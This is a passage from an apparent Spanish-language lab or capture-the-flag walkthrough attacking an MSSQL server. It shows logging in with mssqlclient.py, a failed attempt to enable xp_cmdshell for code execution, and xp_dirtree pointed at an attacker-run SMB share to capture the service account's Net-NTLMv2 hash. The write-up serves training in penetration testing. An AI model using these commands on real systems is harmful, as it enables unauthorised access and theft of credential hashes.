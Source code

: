 ```bash
mssqlclient.py WORKGROUP/reporting@10.10.10.125 2>/dev/null

mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth 2>/dev/null
```

### Attemting to enable xp\_cmdshell component in MSSQL (Failed)

Probaremos de intentar habilitar el componente de **xp\_cmdshell** para así obtener un RCE (Remote Code Execution), pero comprobamos que con el usuario autenticado no disponemos de permisos para  habilitar dicho componente.

```sql
SP_CONFIGURE "show advanced options", 1

xp_cmdshell "whoami"
```

<figure><img src="../../../.gitbook/assets/992_vmware_vPijAL875b.png" alt=""><figcaption></figcaption></figure>

### MSSQL Hash Stealing \[Net-NTLMv2] (xp\_dirtree)

En este punto lo que haremos es intentar abusar del componente **xp\_dirtree** para obtener los hashes NTLMv2.

En nuestra Kali nos montaremos un servicio SMB y des la conexión de MSSQL procederemos a listar el contenido del recurso que estamos compartiendo, en nuestra Kali nos habrá llegado el Hash NTLMv2 de la cuenta de servicio que está consultando con **xp\_dirtree**.&#x20;

Comprobamos que obtuvimos el hash NTLMv2 del usuario "mssql-svc"

```bash
smbserver.py smbFolder $(pwd) -smb2support

xp_dirtree \\10.10.14.13\smbFolder\
```

<figure><img src="../../../.gitbook/assets/993_vmware_fu9n9VFEXB.png" alt=""><figcaption></figcaption></figure>
